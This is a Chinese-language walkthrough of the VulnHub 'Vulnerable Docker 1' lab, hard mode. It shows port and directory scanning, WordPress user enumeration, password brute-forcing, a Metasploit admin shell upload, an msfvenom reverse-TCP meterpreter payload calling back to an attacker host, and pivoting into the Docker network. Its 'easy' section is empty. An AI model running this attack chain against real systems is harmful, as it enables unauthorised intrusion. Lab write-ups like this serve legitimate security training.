




# Vulnerable Docker 1

> https://download.vulnhub.com/vulnerabledocker/vulnerable_docker_containement.ova

靶场IP：`192.168.32.225`

有两种模式：`easy`和`hard`



## hard

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p 1-65535 -sV  192.168.32.225                                                                                                                                                                                                                                                                            
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-11 03:20 EDT
Nmap scan report for 192.168.32.225
Host is up (0.00077s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Apache httpd 2.4.10 ((Debian))
MAC Address: 00:0C:29:EC:B1:68 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.23 seconds

```

访问8000端口


爆破web目录

```
┌──(root💀kali)-[~]
└─# gobuster dir -w /usr/share/wordlists/dirb/common.txt  -u http://192.168.32.225:8000/                                                                                                                                                                                                                               
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.225:8000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/11 03:26:05 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 300]
/.htpasswd            (Status: 403) [Size: 300]
/0                    (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/0/]
/a                    (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/a-homepage-section/]
/A                    (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/a-homepage-section/]
/about                (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/about/]             
/About                (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/About/]             
/admin                (Status: 302) [Size: 0] [--> http://192.168.32.225:8000/wp-admin/]          
/atom                 (Status: 200) [Size: 20055]                                                 
/B                    (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/blog/]              
/b                    (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/blog/]              
/bl                   (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/blog/]              
/blog                 (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/blog/]              
/Blog                 (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/Blog/]              
/c                    (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/contact/]           
/C                    (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/contact/]           
/co                   (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/contact/]           
/coffee               (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/coffee/]            
/comment-page-1       (Status: 200) [Size: 52924]                                                 
/con                  (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/contact/]           
/cont                 (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/contact/]           
/Contact              (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/Contact/]           
/contact              (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/contact/]           
/dashboard            (Status: 302) [Size: 0] [--> http://192.168.32.225:8000/wp-admin/]          
/embed                (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/embed/]             
/favicon.ico          (Status: 200) [Size: 0]                                                     
/feed                 (Status: 200) [Size: 17992]                                                 
/h                    (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/2017/08/19/hello-world/]
/H                    (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/2017/08/19/hello-world/]
/hello                (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/2017/08/19/hello-world/]
/home                 (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/home/]                  
/Home                 (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/Home/]                  
/index.php            (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/]                       
/login                (Status: 302) [Size: 0] [--> http://192.168.32.225:8000/wp-login.php]           
/p                    (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/post-6/]                
/P                    (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/post-6/]                
/page2                (Status: 200) [Size: 61436]                                                     
/page1                (Status: 200) [Size: 71444]                                                     
/pos                  (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/post-6/]                
/post                 (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/post-6/]                
/rdf                  (Status: 200) [Size: 16332]                                                     
/robots.txt           (Status: 200) [Size: 67]                                                        
/rss                  (Status: 200) [Size: 2402]                                                      
/rss2                 (Status: 200) [Size: 17992]                                                     
/s                    (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/sample-page/]           
/S                    (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/sample-page/]           
/sa                   (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/sample-page/]           
/sam                  (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/sample-page/]           
/sample               (Status: 301) [Size: 0] [--> http://192.168.32.225:8000/sample-page/]           
/server-status        (Status: 403) [Size: 304]                                                       
/wp-admin             (Status: 301) [Size: 326] [--> http://192.168.32.225:8000/wp-admin/]            
/wp-content           (Status: 301) [Size: 328] [--> http://192.168.32.225:8000/wp-content/]          
/wp-includes          (Status: 301) [Size: 329] [--> http://192.168.32.225:8000/wp-includes/]         
/xmlrpc.php           (Status: 405) [Size: 42]                                                        
                                                                                                      
===============================================================
2022/09/11 03:28:12 Finished
===============================================================
                                                                
```

发现cms是wordpress，使用wpscan进行扫描

```
┌──(root💀kali)-[~]
└─# wpscan --url http://192.168.32.225:8000
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.14
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]B
[+] URL: http://192.168.32.225:8000/ [192.168.32.225]
[+] Started: Sun Sep 11 03:29:55 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.10 (Debian)
 |  - X-Powered-By: PHP/5.6.31
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://192.168.32.225:8000/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.32.225:8000/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://192.168.32.225:8000/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.32.225:8000/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8.1 identified (Insecure, released on 2017-08-02).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.168.32.225:8000/feed/, <generator>https://wordpress.org/?v=4.8.1</generator>
 |  - http://192.168.32.225:8000/comments/feed/, <generator>https://wordpress.org/?v=4.8.1</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://192.168.32.225:8000/wp-content/themes/twentyseventeen/
 | Last Updated: 2022-05-24T00:00:00.000Z
 | Readme: http://192.168.32.225:8000/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.0
 | Style URL: http://192.168.32.225:8000/wp-content/themes/twentyseventeen/style.css?ver=4.8.1
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.32.225:8000/wp-content/themes/twentyseventeen/style.css?ver=4.8.1, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <==============================================================================================================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:02

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Sep 11 03:30:00 2022
[+] Requests Done: 171
[+] Cached Requests: 7
[+] Data Sent: 44.524 KB
[+] Data Received: 476.498 KB
[+] Memory used: 228.035 MB
[+] Elapsed time: 00:00:05

```

枚举用户

```
┌──(root💀kali)-[~]
└─# wpscan --url http://192.168.32.225:8000 --enumerate u

[+] bob
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.32.225:8000/wp-json/wp/v2/users/?per_page=100&page=1
 |  Rss Generator (Aggressive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

```

爆破bob的密码，发现密码：`Welcome1`

```
┌──(root💀kali)-[/opt]
└─# wpscan --url http://192.168.32.225:8000 -U bob -P /opt/10_million_password_list_top_10000.txt 

[!] Valid Combinations Found:
 | Username: bob, Password: Welcome1

```

访问：`/wp-admin`



我们在 Wordpress 中有管理员，让我们在（大概）容器中获取一个 shell：

```
use exploit/unix/webapp/wp_admin_shell_upload
set PASSWORD Welcome1
set USERNAME bob
set RHOST 192.168.32.225
set RPORT 8000
run
```



我们现在有一个meterpreter。在这一点上，我被卡住了一段时间。我首先开始搜索一些 setuid 二进制文件，但这并没有让我到任何地方。因此，我尝试查找有关网络的信息：

```
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 scope global eth0
       valid_lft forever preferred_lft forever

```

因此，我尝试设置一些到 172.18.0.4/16 网络的路由来进行端口扫描，但此时我一直遇到问题，即使设置了路由，端口扫描也会显示整个 172.18 的开放端口。 0.0/24 网络，好像出来了。

我对此一头雾水，最终认为这可能是因为我使用的是基于 PHP 的 Meterpreter，而且显然它的功能相当有限（例如，没有 ipconfig）。所以，我继续生成了一个完整的仪表并将其放入容器中：

```
┌──(root💀kali)-[/tmp]
└─# msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.32.130 LPORT=4444 -f elf > shell.elf                                                                                                                                                                                                         
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 1101336 bytes
Final size of elf file: 1101336 bytes

```

上传shell

```
meterpreter > cd /tmp
meterpreter > upload /tmp/shell.elf
[*] uploading  : /tmp/shell.elf -> shell.elf
[*] Uploaded -1.00 B of 1.05 MiB (0.0%): /tmp/shell.elf -> shell.elf
[*] uploaded   : /tmp/shell.elf -> shell.elf

```



```
meterpreter > getuid
Server username: www-data @ 8f4bca8ef241 (uid=33, gid=33, euid=33, egid=33)
meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0


Interface  5
============
Name         : eth0
Hardware MAC : 02:42:ac:12:00:02
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.18.0.2
IPv4 Netmask : 255.255.0.0

```

docker 容器添加了到子网的路由

```
meterpreter > run autoroute -s 172.18.0.0/24
```


## easy
